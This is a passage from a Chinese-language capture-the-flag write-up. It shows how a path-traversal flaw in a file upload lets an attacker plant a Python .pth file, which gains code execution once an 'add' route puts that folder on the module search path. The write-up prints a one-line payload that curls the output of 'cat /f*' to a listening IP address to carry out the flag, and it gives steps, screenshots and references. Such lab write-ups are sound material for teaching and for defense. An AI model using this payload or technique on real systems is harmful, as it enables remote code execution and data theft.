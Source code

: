 在文件上传这里是将上传文件存储到 `/tmp/storage` 目录下，但是这里没有限制，存在**目录穿越漏洞**

所以我们可以上传文件名：`../extract/1.pth`，内容为：

```python
import os;os.popen('curl http://192.168.56.128:9000?a=`cat /f*`').read()
```

这样在 add路由 我们就会将 `/tmp/extract` 目录下面的 `1.pth` 添加到 `模块搜索路径` 中

当执行python时，就会执行命令





**步骤：**

我们上传一个文件： `../extract/1.pth`

![image-20230527161530186](https://s2.loli.net/2023/05/27/IuNvyOlFWnbox1D.png)

然后在虚拟机开启监听9000端口：

![image-20230527161611275](https://s2.loli.net/2023/05/27/yhsLS1CUDQ8ENgf.png)

接着我们点击 add 添加模块

![image-20230527161638748](https://s2.loli.net/2023/05/27/EZ1S9boDIUfimBz.png)

成功把flag外带出来：

![image-20230527161729793](https://s2.loli.net/2023/05/27/JRzauMpoW2ylFh7.png)







### 参考

[site-指定域配置钩子](https://docs.python.org/zh-cn/3/library/site.html)

[Code Execution via Site-Specific Configuration Hooks](https://www.sonarsource.com/blog/pretalx-vulnerabilities-how-to-get-accepted-at-every-conference/)

[Python pth 文件写入 getshell 或权限维持](https://www.cnblogs.com/Nestar/p/17336664.html)

[Python pth文件写入getshell](https://y4er.com/posts/python-pth-file-write-getshell/)





